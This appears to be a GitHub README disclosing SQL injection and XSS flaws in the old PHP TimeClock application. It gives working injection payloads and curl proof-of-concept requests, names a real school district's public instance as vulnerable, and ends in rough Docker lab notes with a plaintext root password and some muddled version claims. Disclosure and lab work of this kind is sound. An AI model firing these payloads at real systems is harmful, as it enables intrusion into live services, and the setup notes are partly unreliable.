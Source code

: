 # PHP TimeClock Vulnerabilities 

This repository contains details on several vulnerabilities I found in the [PHP TimeClock](http://timeclock.sourceforge.net/) application. 



# Multiple SQL Injections (Time-Based Blind & Boolean-Based Blind)

```
Parameter: login_userid (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: login_userid=foo' RLIKE (SELECT (CASE WHEN (1542=1542) THEN 0x666f6f ELSE 0x28 END))-- QYSb&login_password=pass

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (heavy query)
    Payload: login_userid=foo' AND 7130=BENCHMARK(5000000,MD5(0x6c716b4c))-- frgB&login_password=pass
``` 


## Reflected Cross-Site Scripting Vulnerabilities via GET request 

Several resources are is vulnerable to reflective cross-site scripting via appending any payload to the end of the URL GET request. The payload should be preceeded with a single quote and greater than symbol. Vulnerable resources include, 

+ /login.php
+ /timeclock.php
+ /reports/audit.php
+ /reports/timerpt.php

```
curl -i -s -k -X $'GET' \
    -H $'Host: localhost' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Connection: close' \
    $'http://localhost/login.php/\'%3E%3Csvg/onload=alert%60xss%60%3E'
```

*payload*: http://localhost/login.php/'%3E%3Csvg/onload=alert%60xss%60%3E%3C  

![](img/reflective-xss.png)  

## Multiple Cross-Site Scripting via post parameters in /reports/total_hours.php, reports/timerpt.php, and reports/audit.php


The resources located at /reports/total_hours.php, reports/timerpt.php, and reports/audit.php are vulnerable to cross site scripting in the from_date,to_date post parameters.

![](img/xss-via-total-hours.png)

```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Length: 242' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \" Not A;Brand\";v=\"99\", \"Chromium\";v=\"90\"' -H $'sec-ch-ua-mobile: ?0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://localhost' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: http://localhost/reports/total_hours.php' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=deabe86d43dc8a946b4f9a20639bc0ad' \
    --data-binary $'date_format=M%2Fd%2Fyyyy&office_name=foo&group_name=foo+group&user_name=foo&from_date=5%2F6%2F2021\'><svg/onload=alert`xss`>&to_date=5%2F6%2F2021&csv=0&tmp_paginate=1&tmp_show_details=1&tmp_display_ip=1&tmp_round_time=0&submit.x=23&submit.y=10' \
    $'http://localhost/reports/total_hours.php'
```


# Stored Cross Site Scripting in

This repository was my attempt at dockerizing the 2006 [PHP TimeClock](http://timeclock.sourceforge.net/) application. It uses an adapted version of [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker) to manage setting up legacy versions of php,mysql, and apache which are required in php timeclock due to several deprecated functions. 


## Installation   

1) Clone the repo   `git clone https://github.com/tcbutler320/php-timeclock-docker`
2) cd into the docker folder `cd php-timeclock-docker/docker`
3) build docker image `docker build -f Dockerfile.ubuntu -t timeclock .`
4) Run the image `docker run -d --name timeclock --restart=always -p 80:80 -v ./data:/usr/local/mysql/var -v ./timeclock-1.04:/usr/local/apache2/htdocs timeclock`

> For now, the rest of the instructions will only be for Docker Desktop. I'll later script this out in the docker build so that it can be done automatically 

5) Using docker desktop, open the cli for the container 
6) open a mysql shell `mysql -u root -p`, using password IAmroot
7) create the timeclock database `create database timeclock;`
8) exit the mysql shell
9) populate the database with the sql file `mysql -u root -p timeclock < /usr/local/apache2/htdocs/create_tables.sql`



## Resources 
southcentralunified

http://timeclock.southcentralunified.org/timeclock.php


## Vulnerability Disovered

The southcentralunified school district is using an externally facing employee timeclock application, running a decades old PHP version (3.3) and a time management software last updated in 2006 (php-timeclock). 




## Set up Test Enviorment 

https://www.linuxquestions.org/questions/programming-9/error-compiling-php-5-2-i-know-very-old-dereferencing-pointer-to-incomplete-type-4175462232/



### Server Setup 

1) wget -c http://museum.php.net/php5/php-5.3.3.tar.gz
2) gunzip php-5.3.3.tar.gz
3) tar -xvf php-5.3.3.tar
4) cd php-5.3.3/
5) apt-get install build-essential
6) sudo apt-get install libxml2-dev
7) ./configure --prefix=$HOME/local
8) make
9) make install



## Dockerizing the PHP TimeClock Application 

> Several issues arose when trying to launch a test enviorment due to the extremly old versions of php and mysql that were last tested on the application. To get around this, a few modifications must be made 


## MySQL 

1) Changing the MySQL table structure

The MySQL table defined in the original create_tables.sql file uses several table and column names with 'group'. This has become a reserved name in MySQL, and therefore all instances of group must be changed to grp in order to import into the MySQL server

2) The earliest dockerized version of MySQL only allows `bigint` with precision up to 6, so this must be changed from the original 14   

`#1426 - Too-big precision 14 specified for 'timestamp'. Maximum is 6.`




## PHP


1) Changing the PHP mysqli_connect function call 

The original 1.03 application uses the mysqli_connect function to communicate to the database. Unfortunately, this was depricated in PHP 5.5.5, and the earliest version of PHP which is dockerized is 5.7. To get around this, we must change the sql function to mysql_connnect. 




## options 

https://github.com/rodvlopes/php4-mysql4-apache2.2-docker





## Installing PHP From Source, Solved 

> https://forums.centos.org/viewtopic.php?t=53046